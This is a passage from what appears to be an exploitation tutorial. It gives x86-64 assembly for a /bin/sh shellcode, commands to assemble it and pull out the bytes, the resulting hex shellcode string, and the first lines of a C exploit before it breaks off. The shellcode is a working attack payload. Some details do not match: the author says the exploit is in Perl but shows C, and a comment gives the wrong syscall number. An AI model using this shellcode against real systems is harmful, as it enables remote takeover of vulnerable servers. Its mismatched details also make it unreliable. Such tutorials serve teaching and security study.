 ```assembly
    push rdx ; NULL
    mov qword rdi, 0x68732f6e69622f2f ; "//bin/sh"
    push rdi ; command
    push rsp
    pop rdi

    push rdx ; env
    pop rsi ; args

    mov al, 0x3b ; EXEC (rax=0x4b) rdi="/bin/sh" rsi=rdx=
    syscall
```

I added some comments to clarify the less obvious parts, and you will notice a significant number of push/pop instructions. The reason for this is that a PUSH/POP pair is only two bytes, whereas a MOV instruction is three bytes. This approach makes the code slightly shorter, but also considerably uglier. Frankly, I'm not sure if it's a good idea. However, feel free to improve upon it and share your versions in the comments. If you have any doubts about the code, don't hesitate to ask.

Generating our Shellcode

Now, we have to get the shellcode in a format suitable to be send to the remote server. For doing that we have to first compile the code and then extract the machine code out of the compiled file. Compiling (assembling in this case) is straight forward:
```terminal
nasm -f elf64 -o rsh.o rsh.asm
```
There are many different ways to get the binary data out of the object file. I use these nifty trick that produce a string in a format that I can easily add to a Perl or C program.
```terminal
for i in $(objdump -d rsh.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
The two commands above will produce the following shellcode:
```shellcode
\x48\x31\xc0\x50\x50\x50\x5e\x5a\x50\x5f\xb0\x20\x0f\x05\x48\xff\xc8\x50\x5f\xb0\x21\x0f\x05\x48\xff\xc6\x48\x89\xf0\x3c\x02\x75\xf2\x52\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\x52\x5e\xb0\x3b\x0f\x05
```

Time to write the exploit

## The Exploit

So we have a remote vulnerable system. You have figure out how to exploit the buffer overflow in our low-secured environment and we also have a shellcode to run on the remote system. Now we need a exploit. The exploit will put all this together and give us the remote shell we are looking for.

There are many ways to write it. I’ve used used Perl for mine. Of course. :stuck_out_tongue_winking_eye:

This is how it looks like:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define BUF_SIZE 1024

int main() {
    int sockfd;
    struct sockaddr_in server_addr;

```